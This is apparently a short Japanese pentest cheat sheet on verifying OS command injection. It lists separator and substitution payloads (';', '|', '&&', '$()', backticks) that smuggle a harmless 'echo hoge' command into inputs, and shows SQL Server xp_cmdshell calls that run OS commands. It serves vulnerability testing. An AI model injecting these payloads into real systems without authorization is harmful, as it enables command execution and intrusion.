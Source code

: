 # OSCommandInjection

## 検証方法

* 検証方法

``` shell
   # help表示
   -h 
   # 最初のコマンドに続けて実行 Linux系のみ
   ; echo hoge
   # Perlのファイルオープンのインジェクション
   echo hoge |
   # or 検証
   || echo hoge
   # and 検証
   && echo hoge
   # バックグラウンドに落とす
   & echo hoge
   # bash限定 コマンド置換
   $(echo hoge)
   # unix/linux コマンド置換
   `echo hoge`
   # unix/linux プロセス置換
   > (echo hoge)
```

## SQLでOSコマンドを実行

* SQL Server 限定
* カレントディレクトリはcmd.exeがあるディレクトリ

``` SQL
   exec xp_cmdshell 'echo file output test > test.txt'
   --　戻り値が欲しいとき
   exec @result = master..xp_cmdshell 'dir *.exe'
```
